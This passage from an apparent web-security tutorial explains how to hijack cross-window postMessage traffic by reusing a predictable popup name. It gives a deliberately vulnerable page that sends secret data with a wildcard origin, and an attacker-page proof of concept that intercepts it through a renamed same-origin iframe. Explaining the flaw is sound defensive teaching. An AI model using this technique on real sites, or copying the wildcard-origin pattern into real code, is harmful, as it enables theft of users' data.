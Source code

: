 If the target page would now send a `postMessage(..., "*")` to this newly opened "window", it may have been hijacked by an attacker again to intercept the message.

{% code title="https://example.com" %}
```html
<?php
// Vulnerable page doesn't need to be iframable
header("X-Frame-Options: DENY");
?>
<h1>Vulnerable</h1>
<button onclick="start()">Start</button>
<script>
  function start() {
    w = window.open("/win", "PREDICTABLE_NAME", "popup");
    setTimeout(() => {
      w.postMessage("SECRET_DATA", "*")
    }, 1000)
  }
</script>
```
{% endcode %}

The attacker can now steal the secret data with any same-origin iframe. If the target doesn't allow this, errors often don't include regular response headers. Try a path like `/%00` or a too-long URI:

<pre class="language-html" data-title="https://attacker.com"><code class="lang-html"><strong>&#x3C;iframe src="https://example.com/%00" id="frame" name="PREDICTABLE_NAME">&#x3C;/iframe>
</strong>&#x3C;script>
  onclick = () => {
<strong>    window.open("https://example.com");
</strong>    // When the user triggers https://example.com's popup, it will be placed in 
    // the above iframe. We quickly rewrite it to our origin to leak the message
    // that will be sent to it:
    frame.onload = () => {
      frame.onload = null;
<strong>      frame.srcdoc = `&#x3C;script>
</strong><strong>  onmessage = (e) => alert(e.data)
</strong><strong>  &#x3C;\/script>`;
</strong>    };
  };
&#x3C;/script>
</code></pre>
